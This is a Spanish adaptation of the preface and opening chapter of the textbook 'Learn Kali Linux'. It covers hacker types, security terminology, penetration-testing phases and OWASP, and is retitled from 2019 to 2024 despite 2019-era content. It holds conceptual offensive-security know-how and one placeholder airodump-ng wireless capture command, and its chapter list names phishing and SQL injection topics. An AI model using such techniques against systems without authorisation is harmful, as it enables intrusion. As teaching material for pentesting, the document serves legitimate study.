# Aprender Kali Linux ~~2019~~ 2024

> *El aumento actual de los ataques informáticos y las brechas de seguridad hace que sea más importante que nunca realizar pruebas de penetración de forma eficaz en su entorno, garantizando la protección de los puntos finales. Este libro te guiará a través de la versión de Kali Linux ~~2019~~ 2024 y te ayudará a utilizar diversas herramientas y técnicas para abordar de forma eficiente los aspectos cruciales de la seguridad.*
>
> *A través de ejemplos del mundo real, entenderás cómo configurar un laboratorio y explorar los conceptos básicos de las pruebas de penetración. A lo largo del libro, te pondrás al día con la recopilación de información confidencial e incluso descubrirás diferentes herramientas de evaluación de vulnerabilidades incluidas en Kali Linux~~2019~~ 2024. En los capítulos posteriores, obtendrás conocimientos sobre conceptos como la ingeniería social, los ataques a redes inalámbricas, la explotación de aplicaciones web y conexiones de acceso remoto para seguir desarrollando tus habilidades en pentesting. También te conocerás técnicas de como eludir los controles, atacar al usuario final y mantener el acceso persistente a través de las redes sociales. Finalmente, este libro de pruebas de penetración cubre las mejores prácticas para realizar técnicas complejas de pentesting en un entorno altamente seguro. Al final de este libro, podrás utilizar Kali Linux para detectar vulnerabilidades y proteger tu sistema mediante la aplicación de técnicas de pruebas de penetración de diversa complejidad.*

## Prefacio

*Learn Kali Linux~~2019~~ 2024* es un excelente libro lleno de contenido y ejercicios sorprendentes diseñados con un enfoque centrado en el estudiante, lo que hace que sea fácil adaptarse y seguir cada capítulo fácilmente. *Learn Kali Linux~~2019~~ 2024* comienza presentando al lector los conceptos de piratería ética y los actores de amenazas, antes de avanzar gradualmente hacia los enfoques y metodologías de pruebas de penetración. Cada capítulo fluye suavemente hacia el siguiente. En cada paso del recorrido, se describen las etapas de las pruebas de penetración, con la ayuda de una teoría en profundidad y laboratorios prácticos que utilizan una de las plataformas de pruebas de penetración más populares: Kali Linux.

El lector aprenderá cómo construir su propio entorno de laboratorio de pruebas de penetración, realizar reconocimiento pasivo y activo utilizando OSINT en las organizaciones objetivo, realizar escaneo de vulnerabilidades utilizando múltiples herramientas como Nessus y realizar penetración inalámbrica, pruebas de penetración de red, pruebas de penetración de sitios web y aplicaciones web y ataques del lado del cliente.

Además, los lectores adquirirán las habilidades necesarias para realizar escaladas de privilegios y movimientos laterales utilizando el marco Metasploit. *Learn Kali Linux~~2019~~ 2024* lo lleva de principiante a experto en términos de aprendizaje y comprensión de pruebas de penetración, teniendo en cuenta al lector.

Este título también se puede utilizar como guía de formación en cursos relacionados con pruebas de penetración, piratería ética y ciberseguridad.

## Para quien es este libro

Este libro está diseñado para estudiantes, ingenieros de redes y seguridad, profesionales de seguridad informática y ciberseguridad, entusiastas y aquellos que simplemente tienen interés en el hacking ético y las pruebas de penetración. Este título también se puede utilizar tanto en cursos de formación independientes (autoaprendizaje) como presenciales sobre pruebas de penetración y ciberseguridad.

Ya sea que sea nuevo en el campo de la tecnología de la información o un profesional de TI experimentado, *Learn Kali Linux~~2019~~ 2024* tiene algo para todos. Se prefiere un conocimiento detallado de redes y seguridad de TI, pero no es obligatorio, ya que el libro está escrito para cualquier persona.

## De qué trata este libro

El Capítulo 1, *Introducción a la piratería*, presenta varios tipos de actores de amenazas, metodologías y enfoques de pruebas de penetración.

El Capítulo 2, *Configuración de Kali - Parte 1*, te presenta los conceptos de virtualización, cómo construir tu propio laboratorio de pruebas de penetración, cómo instalar Kali Linux y las máquinas de destino vulnerables.

El Capítulo 3, *Configuración de Kali - Parte 2*, se centra en la instalación y configuración de los sistemas operativos Windows y Ubuntu y en la solución de problemas de Kali Linux.

El capítulo 4, *Cómo familiarizarse con Kali Linux~~2019~~ 2024*, te enseña sobre Kali Linux, sus características y los comandos que te permitirán realizar diversas tareas.

El Capítulo 5, *Recopilación de información pasiva*, examina las formas pasivas de recopilar información perteneciente al objetivo a partir de **inteligencia de fuentes abiertas** (**OSINT**), lo que significa que recopilaremos información sobre el objetivo a partir de recursos disponibles públicamente.

El Capítulo 6, *Recopilación activa de información*, explica las formas activas de recopilar información mediante técnicas de interrogación, escaneo y enumeración de DNS.

El capítulo 7, *Trabajar con escáneres de vulnerabilidad*, explora varias herramientas de escaneo de vulnerabilidades de red y web, incluidas Nessus, Nikto, WPScan y Burp Suite.

El capítulo 8, *Comprensión de las pruebas de penetración de red*, cubre algunos conceptos básicos de las pruebas de penetración inalámbrica.

El capítulo 9, *Pruebas de penetración de red: ataques previos a la conexión*, explora una herramienta de piratería inalámbrica, *aircrack-ng*, el concepto básico de los ataques de desautenticación y cómo crear puntos de acceso falsos.

El capítulo 10, *Pruebas de penetración de red: obtención de acceso*, cubre los conceptos básicos para obtener acceso y cómo descifrar el cifrado WEP y WPA mediante ataques de diccionario y fuerza bruta.

El capítulo 11, *Pruebas de penetración de red: ataques posteriores a la conexión*, explora la recopilación de información, cómo realizar ataques de intermediario, el rastreo mediante Wireshark, la elevación de privilegios y el movimiento lateral en una red.

El capítulo 12, *Pruebas de penetración de red: detección y seguridad*, explica cómo detectar un ataque de envenenamiento de ARP y actividades sospechosas mediante Wireshark y el análisis de paquetes.

El capítulo 13, *Ataques del lado del cliente: ingeniería social*, explica varios tipos de ataques de ingeniería social y cómo defenderse de ellos, al mismo tiempo que cubre cómo crear una página de phishing en Facebook y técnicas de mitigación.

El capítulo 14, *Realización de pruebas de penetración en sitios web*, cubre los conceptos básicos de las pruebas de penetración en aplicaciones web. Los lectores aprenderán sobre vulnerabilidades comunes basadas en la web, como inyección SQL, **secuencias de comandos entre sitios** (**XSS**) y **falsificación de solicitudes entre sitios** (**CSRF**).

El capítulo 15, *Pruebas de penetración de sitios web: obtención de acceso*, explica cómo eludir los inicios de sesión mediante un ataque de inyección SQL, al mismo tiempo que proporciona una explicación de los ataques XSS reflejados y de almacenamiento y cómo realizar ataques del lado del cliente mediante BeEF.

El Capítulo 16, *Mejores prácticas*, proporciona pautas para los evaluadores de penetración y el plan de seguridad de aplicaciones web para garantizar que, después de completar este libro, el lector tenga una gran cantidad de conocimientos y pueda adaptarse a las buenas prácticas de la industria.


## Para aprovechar al máximo este libro

Para aprovechar al máximo este libro, los lectores deben tener conocimientos básicos de redes, incluidos varios protocolos de red y aplicación, dispositivos y dispositivos de red, y una comprensión básica de los conceptos de enrutamiento y conmutación. No es obligatorio tener algunos conocimientos previos de seguridad informática, pero le ayudarán a comprender los conceptos y ejercicios presentados a lo largo de este libro.

El único hardware necesario es una computadora personal, como una portátil o de escritorio, con un sistema operativo capaz de ejecutar Oracle VM VirtualBox o VMware Workstation 15 Pro. En cuanto a las especificaciones, la configuración recomendada es la siguiente:

- Procesador: Intel i5, i7 o superior
- HDD: Disco duro de 200 GB
- RAM: 4 GB de RAM (es preferible 8 GB  o más)
- Una conexión a Internet
- Adaptador inalámbrico Alfa Network AWUS036NHA (opcional)

## Descargar las imágenes en color

También proporcionamos un archivo PDF que contiene imágenes en color de las capturas de pantalla y los diagramas utilizados en este libro. Puedes descargarlo aquí: https://static.packt-cdn.com/downloads/9781789611809_ColorImages.pdf .

## Convenciones utilizadas

A lo largo de este libro se utilizan varias convenciones textuales.

``CodeInText``: Indica palabras clave en el texto, nombres de tablas de bases de datos, nombres de carpetas, nombres de archivos, extensiones de archivos, nombres de rutas, URL ficticias, entrada del usuario y nombres de usuario de Twitter. A continuación, se incluye un ejemplo: *"Use el comando ``ifconfig`` para verificar el estado del adaptador"* .

Cualquier entrada o salida de línea de comando se escribe de la siguiente manera:

```markup
airodump-ng --bissid <bssid value> -c <channel number> wlan0mon
```

[1](notas.md)

**Negrita** : indica un término nuevo, una palabra importante o palabras que ve en la pantalla. Por ejemplo, las palabras en los menús o cuadros de diálogo aparecen en el texto de esta manera. A continuación, se incluye un ejemplo: "Si está utilizando VMware, el Asistente para nueva máquina virtual le solicitará que continúe con la configuración en el modo típico (recomendado) o personalizado (avanzado) " .

# Sección 1: Conceptos básicos de Kali Linux

En esta sección se tratan los aspectos básicos del hacking, analizando los conceptos de las pruebas de penetración y su valor para combatir las amenazas cibernéticas. Además, el lector aprenderá a construir su propio laboratorio de pruebas de penetración con varios sistemas operativos para practicar y perfeccionar sus habilidades.

Esta sección comprende los siguientes capítulos:

- Capítulo 1, *Introducción al hacking*
- Capítulo 2, *Configuración de Kali - Parte 1*
- Capítulo 3, *Configuración de Kali - Parte 2*
- Capítulo 4 : *Familiarizándose con Kali Linux~~2019~~ 2024*

# Introducción al hacking

La ciberseguridad es uno de los campos de la tecnología de la información que crece con mayor rapidez. Cada día se ejecutan numerosos ataques contra diversas entidades, desde individuos hasta grandes empresas e incluso gobiernos. Debido a estas amenazas en el mundo digital, se están creando nuevas profesiones dentro de las organizaciones para personas que puedan proteger los activos. Este libro tiene como objetivo brindarle el conocimiento y las técnicas que necesita un aspirante a evaluador de penetración para ingresar al campo de la ciberseguridad. Un evaluador de penetración es un profesional que tiene las habilidades de un hacker; son contratados por una organización para realizar simulaciones de ataques del mundo real en su infraestructura de red con el objetivo de descubrir vulnerabilidades de seguridad antes de que ocurra un ataque real. El evaluador de penetración realiza esta tarea con el permiso legal por escrito de la organización de destino. Para convertirse en un hacker altamente calificado, es vital tener un sólido conocimiento de computadoras, redes y programación, así como de cómo funcionan juntas. Sin embargo, lo más importante es que necesita creatividad. El pensamiento creativo permite a una persona pensar de manera innovadora e ir más allá de los usos previstos de las tecnologías y encontrar nuevas y emocionantes formas de implementarlas, haciendo cosas con ellas que nunca fueron previstas por sus desarrolladores. En cierto modo, los hackers son artistas.

A lo largo de este libro, utilizaremos uno de los sistemas operativos más populares para realizar pruebas de penetración: Kali Linux. El sistema operativo Kali Linux tiene cientos de herramientas y utilidades diseñadas para ayudarlo durante una evaluación de vulnerabilidad, una prueba de penetración o incluso una investigación forense digital en el campo de la ciberseguridad. Utilizaremos Kali Linux para guiarlo a través de varios temas utilizando un enfoque centrado en el estudiante, lleno de muchos ejercicios prácticos que comienzan desde el nivel principiante hasta el intermedio y pasan a temas y técnicas más avanzados.

En este capítulo, veremos qué son los piratas informáticos y cómo se los puede clasificar en función de sus motivaciones y acciones. Aprenderemos terminología importante y analizaremos métodos y enfoques que nos ayudarán a lo largo de este libro y nos encaminarán a convertirnos en un evaluador de penetración. También conoceremos el flujo de trabajo de un ataque.

En este capítulo analizaremos los siguientes temas:

- ¿Quién es un hacker?
- Terminología clave
- Fases de las pruebas de penetración
- Metodologías de pruebas de penetración
- Enfoques de pruebas de penetración
- Tipos de pruebas de penetración
- Fases del hackeo


## ¿Quién es un hacker?

**Hacker**, **hack** y **hacking** son términos que se han vuelto omnipresentes en el siglo XXI. Probablemente hayas oído hablar de trucos de vida, trucos de negocios, etc. Si bien estos pueden ser, en algún sentido de la palabra, formas de hacking, la forma tradicional de hacking que analizaremos en este libro es el hacking informático. El hacking informático es el arte de usar tecnologías basadas en computadoras de maneras para las que nunca fueron pensadas para ser utilizadas con el fin de lograr que hagan algo inesperado.

El hacking ha adoptado muchos nombres y formas diferentes a lo largo de los años. A finales del siglo XX, una forma común de hacking se conocía como **phreaking**, que abusaba de las debilidades de los sistemas telefónicos analógicos. El hacking informático existe desde hace más de medio siglo y, en las últimas décadas, se ha convertido en una sensación de la cultura pop en las películas de Hollywood y en los programas de televisión. Está en todas las noticias, casi a diario. Se oye hablar de cosas como las filtraciones de datos de Equifax, NHS y Home Depot todo el tiempo. Si está leyendo este libro, ha dado el primer paso para comprender mejor esta forma marginal de ingeniería.

Ahora que tenemos una mejor idea de qué es un hacker, exploremos las distintas clasificaciones de hackers.

### Tipos de hackers

El hacking tiene muchas variedades y, por lo tanto, existen muchas clasificaciones de hackers. En esta sección, exploraremos los distintos tipos de hackers, incluidas las actividades, los conjuntos de habilidades y los valores asociados con cada uno.

Los siguientes son los diferentes tipos de hackers:

- Sombrero negro
- sombrero blanco
- Sombrero gris
- Suicidio
- Patrocinado por el estado
- *Script Kiddie*
- Terrorista cibernético

Al final de esta sección, podrás comparar y contrastar cada tipo de hacker.

#### Hacker de sombrero negro

Los hackers de sombrero negro suelen tener un profundo conocimiento de sistemas, redes y programación de aplicaciones, que utilizan con fines maliciosos o delictivos. Este tipo de hacker suele tener un profundo conocimiento de tácticas de evasión e indemnización, que utilizan para evitar ser encarcelados como resultado de sus acciones.

Entienden las herramientas y tácticas comunes que utilizan los hackers éticos altamente capacitados. Los hackers descubiertos realizando piratería informática delictiva suelen ser incluidos en la lista negra de hackers éticos, por lo que pierden la posibilidad de conseguir empleo como hackers éticos.

Ahora que comprende mejor a los hackers de sombrero negro, echemos un vistazo a otro tipo, uno que sigue prácticas éticas y ayuda a otros: el hacker de sombrero blanco.

#### Hacker de sombrero blanco

Los hackers de sombrero blanco, al igual que los hackers de sombrero negro, poseen un sólido conocimiento de sistemas, redes y programación de aplicaciones. Sin embargo, a diferencia de los hackers de sombrero negro, utilizan sus conocimientos y habilidades para probar sistemas, aplicaciones y redes en busca de vulnerabilidades de seguridad. Estas pruebas se realizan con el permiso del objetivo y se utilizan para encontrar debilidades en la seguridad antes de que los hackers poco éticos las exploten. La motivación para proteger los sistemas y las entidades, sin salirse de los límites de la ley y la ética, lleva a que los hackers de sombrero blanco sean llamados hackers éticos.

Al igual que los hackers de sombrero negro, poseen un sólido conocimiento de las herramientas de hacking, los vectores de ataque y las tácticas utilizadas en la explotación y el descubrimiento de vulnerabilidades. También necesitan pensar como hackers de sombrero negro cuando realizan pruebas y, por lo tanto, deben usar la creatividad para imaginarse en el lugar de aquellos a quienes desean combatir. El hacking ético o de sombrero blanco es la forma más común de hacking y el tema central de este libro.

Ahora que entendemos la diferencia entre un hacker de sombrero blanco y un hacker de sombrero negro, pasemos a un tipo de hacker que busca vulnerabilidades mientras habita en un área ambigua o **gris** entre el hacking ético y el no ético: el hacker de sombrero gris.

#### Hacker de sombrero gris

Los hackers de sombrero gris son similares a los de sombrero blanco, pero suelen investigar vulnerabilidades por su cuenta y luego las revelan para obligar a los proveedores a solucionar el problema mediante la publicación de un parche de software. Sus habilidades suelen hacer mayor hincapié en las tácticas de investigación de vulnerabilidades, como el fuzzing, la depuración y la ingeniería inversa.

A veces, ser un gray hat puede resultar difícil, ya que el equilibrio y la definición de acciones éticas y no éticas cambian constantemente. A pesar del difícil lugar que ocupan en la comunidad, comparten información valiosa sobre fallas de seguridad y, por lo tanto, son miembros importantes de la comunidad de ciberseguridad.

El siguiente tipo de hacker utiliza medios poco éticos para entrar en los sistemas, pero no lo hace para obtener beneficios personales como un hacker de sombrero negro: este tipo de hacker es el hacker suicida.

#### Hacker suicida

Los hackers suicidas suelen ser hackers poco habilidosos que apenas tienen la capacidad de acceder a los sistemas, pero no son capaces de evadir la detección. A estos hackers no les preocupa que los atrapen o los encarcelen; son felices siempre que logren entrar y perturbar un sistema. Sus acciones están motivadas por la venganza, ideologías políticas, etc. A este tipo de hackers no les importa si los atrapan o los arrestan, siempre y cuando hagan su trabajo.

A continuación, analizaremos a los piratas informáticos que trabajan en nombre o dentro de los gobiernos.

#### Hacker patrocinado por el estado

El hacker patrocinado por un estado suele ser contratado por un gobierno nacional para espiar y lanzar ciberataques contra otra nación. Estos hackers han dominado las conversaciones sobre piratería informática en la sociedad.

Este tipo de hacker goza de acceso a todas las herramientas y recursos que proporciona el Estado, así como de protección frente a posibles acciones judiciales para poder desempeñar sus funciones de forma eficaz.

Sin embargo, no todo el mundo tiene acceso a la formación o las herramientas en materia de ciberseguridad. La mayoría de las personas empiezan con recursos y habilidades limitados, como los que veremos en la siguiente sección.

#### Script kiddie

Un script kiddie es un tipo de hacker que no entiende completamente los fundamentos técnicos del hacking. Utiliza scripts y herramientas creadas por otros hackers para realizar su trabajo sucio. Sin embargo, aunque los script kiddies carecen de los conocimientos técnicos de un hacker real, sus acciones pueden causar mucho daño en el mundo digital.

La mayoría de los hackers comienzan como script kiddies. Luego, al desarrollar sus conocimientos y habilidades, pueden volverse más hábiles en el hacking. Esto finalmente los lleva a elegir una vida como uno de los otros tipos de hackers mencionados en esta sección.

El último tipo de hacker tiene un conjunto diferente de motivos, por ejemplo, motivos ideológicos o políticos que son de naturaleza extrema: son ciberterroristas.

#### Terrorista cibernético

Los ciberterroristas son individuos o grupos con intenciones hostiles de causar estragos en sus objetivos, como una nación. Su motivación es de naturaleza política. Los ciberterroristas llevan a cabo una amplia variedad de ataques informáticos en función de lo que hacen, desde causar caos poniendo en peligro la ciberseguridad hasta comprometer la seguridad física al piratear bases de datos confidenciales.

Una vez que hayas completado esta sección, ya podrás diferenciar cada tipo de hacker y conocer sus motivos y habilidades. Las habilidades de los hackers pueden variar desde el nivel de ‘script kiddie’ hasta el de ‘black hat’.

A continuación, pasemos a algunas terminologías importantes para que pueda familiarizarse mejor con el lenguaje de la comunidad de ciberseguridad. Es posible que ya haya encontrado estos términos y seguirá haciéndolo en este libro y en su camino para convertirse en evaluador de penetración a través de debates, libros, capacitación, etc.


## Explorando terminología importante

Cada campo tiene ciertos términos que se convierten en una parte importante del lenguaje de ese campo. La seguridad de la información y la ciberseguridad no son diferentes. A continuación, se enumeran los términos más comunes y los analizaremos en detalle en esta sección:

- Amenaza
- Activo
- Vulnerabilidad
- Explotar
- Riesgo
- Día cero
- Valor del hack

Profundicemos en estos términos con más detalle.

### Amenaza

Una amenaza en términos de ciberseguridad es algo o alguien que pretende causar daño a otra persona o sistema. Además, podemos considerar una amenaza como algo que tiene el potencial de causar daños maliciosos a un sistema, una red o una persona.

Ya sea que estés en el lado ofensivo o defensivo de la ciberseguridad, siempre debes poder identificar las amenazas. Sin embargo, si bien debemos estar al tanto de las amenazas, también debemos saber qué es lo que se debe proteger contra ellas. Llamamos activo a la entidad que necesita protección. Veamos qué constituye un activo.

### Activo

Los activos, en términos de ciberseguridad, son sistemas dentro de una red con los que se puede interactuar y que potencialmente exponen la red o la organización a debilidades que podrían ser explotadas y dar a los piratas informáticos una forma de escalar sus privilegios desde el acceso de usuario estándar al acceso de administrador/nivel raíz o de obtener acceso remoto a la red. Es importante mencionar que los activos no se limitan ni deben limitarse a los sistemas técnicos. Otras formas de activos incluyen a los seres humanos, los controles de seguridad física e incluso los datos que residen dentro de las redes que pretendemos proteger.

Los activos se pueden dividir en tres categorías:

- **Tangibles**: son cosas físicas como dispositivos de red, sistemas informáticos y electrodomésticos.
- **Intangibles**: son cosas que no están en forma física, como propiedad intelectual, planes de negocios, datos y registros.
- **Empleados**: son las personas que impulsan el negocio u organización. Los humanos son una de las entidades más vulnerables en el ámbito de la ciberseguridad.

Un paso clave en la evaluación de vulnerabilidades y la gestión de riesgos es identificar todos los activos dentro de una organización. Todas las organizaciones tienen activos que necesitan mantenerse seguros; los sistemas, redes y activos de una organización siempre contienen algún tipo de debilidad de seguridad que puede ser aprovechada por un hacker. A continuación, analizaremos en profundidad qué es una vulnerabilidad.

### Vulnerabilidad

Una vulnerabilidad es una debilidad o defecto que existe en los sistemas técnicos, físicos o humanos y que los piratas informáticos pueden explotar para obtener acceso o control sobre los sistemas de una red. Las vulnerabilidades comunes que existen en las organizaciones incluyen el error humano (la mayor de las vulnerabilidades a escala mundial), las vulnerabilidades de inyección de aplicaciones web y la más antigua de las vulnerabilidades, el desbordamiento del búfer.

Ahora que sabemos qué es una vulnerabilidad, veamos en la siguiente sección qué utiliza un hacker para aprovechar una debilidad de seguridad.

### Explotar

Los ataques de explotación son las formas en que los piratas informáticos se aprovechan de las debilidades o vulnerabilidades de los sistemas. Por ejemplo, tomemos un martillo, un trozo de madera y un clavo. La vulnerabilidad es la naturaleza blanda y permeable de la madera, y la explotación es el acto de clavar el clavo en la madera.

Como profesional de la ciberseguridad, debe comprender las vulnerabilidades y los ataques para reducir la probabilidad de verse comprometido. En la siguiente sección, describiremos los riesgos.

### Riesgo

El riesgo es el impacto potencial que una vulnerabilidad, amenaza o activo presenta para una organización, calculado en relación con todas las demás vulnerabilidades, amenazas y activos. La evaluación del riesgo ayuda a determinar la probabilidad de que un problema específico provoque una filtración de datos que dañará las finanzas, la reputación o el cumplimiento normativo de una organización.

Reducir el riesgo es fundamental para muchas organizaciones. Existen muchas certificaciones, estándares y marcos diseñados para ayudar a las empresas a comprender, identificar y reducir los riesgos. Más adelante, en la sección *Metodologías de pruebas de penetración*, abordaremos dichos estándares y marcos. A continuación, analizaremos las amenazas que las empresas desconocen porque nadie las ha identificado aún: los ataques de día cero.

### Día cero

Un ataque de día cero - *zero day*- es un exploit que es desconocido para el mundo, incluido el proveedor, lo que significa que no tiene parches por parte del proveedor. Estos ataques se utilizan comúnmente en ataques a estados nacionales, así como por grandes organizaciones criminales. El descubrimiento de un exploit de día cero puede ser muy valioso para los hackers éticos y puede permitirles obtener una recompensa por errores. Estas recompensas son tarifas que pagan los proveedores a los investigadores de seguridad que descubren vulnerabilidades previamente desconocidas en sus aplicaciones.

En la actualidad, muchas organizaciones han establecido un programa de recompensas por errores, que permite a las personas interesadas que descubren una vulnerabilidad en un sistema de un proveedor informar al respecto. La persona que informa de la vulnerabilidad, normalmente un fallo de día cero, recibe una recompensa. Sin embargo, hay piratas informáticos que intentan explotar intencionalmente un sistema o una red para obtener algún tipo de beneficio personal; esto se conoce como el valor del hack, que analizaremos a continuación.

### Valor del hacking

El valor de hackeo se conoce comúnmente como la motivación o el motivo para realizar un hackeo en un sistema o red. Es el valor de lograr el objetivo de entrar en un sistema.

Ahora puede describir mejor la terminología que se utiliza en las pruebas de penetración. En la siguiente sección, analizaremos cada fase de una prueba de penetración.


## Fases de la prueba de penetración

Si bien las pruebas de penetración son interesantes, no podemos atacar un objetivo sin un plan de batalla. La planificación garantiza que las pruebas de penetración sigan un orden secuencial de pasos para lograr el resultado deseado, que es la identificación de vulnerabilidades. Cada fase describe lo que se requiere antes de pasar a los siguientes pasos. Esto garantiza que todos los detalles sobre el trabajo y el objetivo se recopilen de manera eficiente y que el evaluador de penetración comprenda claramente la tarea que tiene por delante.

Las siguientes son las diferentes fases de una prueba de penetración:

1. Pre-compromiso
2. Recopilación de información
3. Modelado de amenazas
4. Análisis de vulnerabilidad
5. Explotación
6. Post-explotación
7. Reporte escrito

Cada una de estas fases se tratará con más detalle en las siguientes secciones.

### Pre-compromiso

Durante la fase previa a la participación, se selecciona al personal clave. Estas personas son fundamentales para brindar información, coordinar recursos y ayudar a los evaluadores a comprender el alcance, la amplitud y las reglas de participación en la evaluación.

Esta fase también cubre los requisitos legales, que normalmente incluyen un **acuerdo de confidencialidad** (**NDA**) y un **acuerdo de servicios de consultoría** (**CSA**). A continuación, se muestra una descripción general del proceso típico de lo que se requiere antes de la prueba de penetración real:



Un NDA es un acuerdo legal que especifica que un evaluador de penetración no compartirá ni conservará ninguna información confidencial o de propiedad exclusiva que se encuentre durante la evaluación. Las empresas suelen firmar estos acuerdos con empresas de ciberseguridad que, a su vez, los firmarán con los empleados que trabajan en el proyecto. En algunos casos, las empresas firman estos acuerdos directamente con los evaluadores de penetración de la empresa que lleva a cabo el proyecto.

El alcance de una prueba de penetración define los sistemas que los evaluadores pueden y no pueden piratear o probar. Para garantizar que el evaluador de penetración se mantenga dentro de los límites legales, debe obtener el permiso legal por escrito del cliente o la empresa que solicita los servicios. Además, el evaluador de penetración debe proporcionar un acuerdo de confidencialidad. El acuerdo entre el hacker ético y el cliente también define los sistemas sensibles, así como los tiempos de prueba y qué sistemas requieren ventanas de prueba especiales. Es increíblemente importante que los evaluadores de penetración presten mucha atención al alcance de una prueba de penetración y dónde están realizando las pruebas para mantenerse siempre dentro de las limitaciones de prueba.

A continuación se presentan algunos ejemplos de preguntas previas al compromiso que le ayudarán a definir el alcance de su prueba de penetración:

- ¿Cuál es el tamaño/clase de su red externa? (Prueba de penetración de red).
- ¿Cuál es el tamaño/clase de su red interna? (Prueba de penetración de red).
- ¿Cuál es el propósito y el objetivo de la prueba de penetración? (Aplicable a cualquier forma de prueba de penetración).
- ¿Cuántas páginas tiene la aplicación web? (Prueba de penetración de aplicaciones web).
- ¿Cuántas entradas de usuario o formularios tiene la aplicación web?

Esta no es una lista exhaustiva de preguntas previas al compromiso, y todos los compromisos deben considerarse detenidamente para asegurarse de hacer todas las preguntas importantes para no subestimar ni subestimar el compromiso.

Ahora que hemos comprendido las etapas de limitación legal en las pruebas de penetración, pasemos a aprender sobre la fase de recopilación de información y su importancia.

### Recopilación de información

La mayoría de los tipos de pruebas de penetración implican una fase de recopilación de información, que es vital para garantizar que los evaluadores tengan acceso a información clave que los ayudará a realizar su evaluación. Este no es el caso de un enfoque de caja negra, del que nos ocuparemos más adelante. La mayor parte de la recopilación de información se realiza para pruebas de penetración de aplicaciones basadas en la web, por lo que las preguntas involucradas generalmente están orientadas a aplicaciones basadas en la web, como las que se indican a continuación:

- ¿En qué plataforma está escrita la aplicación?
- ¿La aplicación utiliza alguna API?
- ¿Está la aplicación detrás de un **firewall de aplicaciones web** (**WAF**)?
- ¿Cómo maneja la aplicación la autenticación?
- ¿La aplicación utiliza credenciales de directorio activo para autenticar a los usuarios?
- ¿Los usuarios acceden a esta aplicación de alguna otra forma que no sea a través de la URL web?
- ¿La aplicación está orientada a Internet o es interna?
- ¿La aplicación proporciona información confidencial o acceso al sistema?


Entender el objetivo es muy importante antes de cualquier tipo de ataque como evaluador de penetración, ya que ayuda a crear un perfil del objetivo potencial. Recuperar las credenciales de usuario/cuentas de inicio de sesión en esta fase, por ejemplo, será vital para las fases posteriores de la prueba de penetración, ya que nos ayudará a obtener acceso a sistemas y redes vulnerables. A continuación, analizaremos los aspectos esenciales del modelado de amenazas.

### Modelado de amenazas

El modelado de amenazas es un proceso que se utiliza para ayudar a los evaluadores y defensores a comprender mejor las amenazas que inspiraron la evaluación o las amenazas a las que la aplicación o red es más propensa. Estos datos se utilizan luego para ayudar a los evaluadores de penetración a emular, evaluar y abordar las amenazas más comunes a las que se enfrenta la organización, la red o la aplicación.

Una vez comprendidas las amenazas que enfrenta una organización, el siguiente paso es realizar una evaluación de vulnerabilidad de los activos para determinar con más detalle la calificación y la gravedad del riesgo.

### Análisis de vulnerabilidad

El análisis de vulnerabilidades generalmente implica que los evaluadores o los evaluadores ejecuten escaneos de vulnerabilidades o de redes y puertos para comprender mejor qué servicios ejecuta la red o la aplicación y si existen vulnerabilidades en los sistemas incluidos en el alcance de la evaluación. Este proceso a menudo incluye pruebas y descubrimientos de vulnerabilidades manuales, que suelen ser la forma más precisa de análisis o evaluación de vulnerabilidades.

Existen muchas herramientas, tanto gratuitas como de pago, que nos ayudan a identificar rápidamente las vulnerabilidades de un sistema o red de destino. Una vez que se descubren las debilidades de seguridad, la siguiente fase consiste en intentar explotarlas.

### Explotación

La explotación es la parte más comúnmente ignorada o pasada por alto de las pruebas de penetración, y la realidad es que a los clientes y ejecutivos no les importan las vulnerabilidades a menos que entiendan por qué son importantes para ellos. La explotación es la munición o evidencia que ayuda a articular por qué la vulnerabilidad es importante e ilustra el impacto que la vulnerabilidad podría tener en la organización. Además, sin explotación, la evaluación no es una prueba de penetración y no es más que una evaluación de vulnerabilidad, que la mayoría de las empresas pueden realizar internamente mejor que un consultor externo.


En pocas palabras, durante la fase de recopilación de información, un evaluador de penetración creará un perfil del objetivo e identificará las vulnerabilidades. A continuación, utilizando la información sobre las vulnerabilidades, el evaluador de penetración investigará y creará exploits específicos que aprovecharán las vulnerabilidades del objetivo; esto es lo que es la explotación. Usamos exploits (código malicioso) para aprovechar una vulnerabilidad (debilidad) en un sistema, lo que nos permitirá ejecutar código y comandos arbitrarios en el objetivo.

A menudo, después de explotar con éxito un sistema o red objetivo, podemos pensar que la tarea está hecha, pero aún no es así. Hay tareas y objetivos que completar después de entrar en el sistema. Esta es la fase posterior a la explotación en las pruebas de penetración.

### Post-explotación

La explotación es el proceso de obtener acceso a sistemas que pueden contener información confidencial. El proceso de postexplotación es la continuación de este paso, en el que se aprovecha la posición obtenida para acceder a los datos o propagarse a otros sistemas dentro de la red. Durante la postexplotación, el objetivo principal suele ser demostrar el impacto que la vulnerabilidad y el acceso obtenido pueden suponer para la organización. Este impacto ayuda a la dirección ejecutiva a comprender mejor las vulnerabilidades y el daño que podrían causar a la organización.

### Reporte escrito

La redacción de informes es exactamente lo que parece y es uno de los elementos más importantes de cualquier prueba de penetración. La prueba de penetración puede ser el servicio, pero la redacción de informes es el resultado que el cliente ve y es el único elemento tangible que se le entrega al final de la evaluación. Los informes deben recibir tanta atención y cuidado como las pruebas.

Hablaré más detalladamente sobre la redacción de informes más adelante en el libro, pero la redacción de informes implica mucho más que enumerar algunas vulnerabilidades descubiertas durante la evaluación. Es el medio en el que se transmiten los riesgos y el impacto comercial, se resumen los hallazgos y se incluyen los pasos para solucionarlos. Un buen evaluador de penetración debe ser un buen redactor de informes, o los problemas que encuentre se perderán y es posible que el cliente que lo contrató para realizar la evaluación nunca los comprenda.

Una vez que haya completado esta sección, podrá describir cada fase de una prueba de penetración. Además, tendrá una mejor idea de las expectativas de los evaluadores de penetración en la industria. A continuación, analizaremos en profundidad las distintas metodologías, estándares y marcos de trabajo de las pruebas de penetración.


## Metodologías de pruebas de penetración

En el campo de las pruebas de penetración, existen muchas metodologías oficiales y estándar que se utilizan para realizar una prueba de penetración en un sistema o red objetivo.

En las siguientes secciones, analizaremos los estándares y marcos más populares que se utilizan en ciberseguridad para garantizar que las organizaciones cumplan con una base aceptable de funcionamiento en un entorno seguro.

### OWASP

**OWASP** son las siglas de **Open Web Application Security Project (Proyecto de seguridad de aplicaciones web abiertas**) y ofrece metodologías y listas de las 10 principales debilidades de seguridad presentes en las aplicaciones web. Esta lista es el marco de facto que utilizan los evaluadores de penetración de aplicaciones web y es lo que la mayoría de las empresas buscan cuando contratan evaluadores de penetración para probar sus aplicaciones web. Esta es también la forma más común y predominante de prueba de penetración.

Este es uno de los marcos más populares y todo evaluador de penetración debe tener un conocimiento claro de él cuando se trata de pruebas de aplicaciones web. Sin embargo, es igualmente importante comprender otros, como NIST.

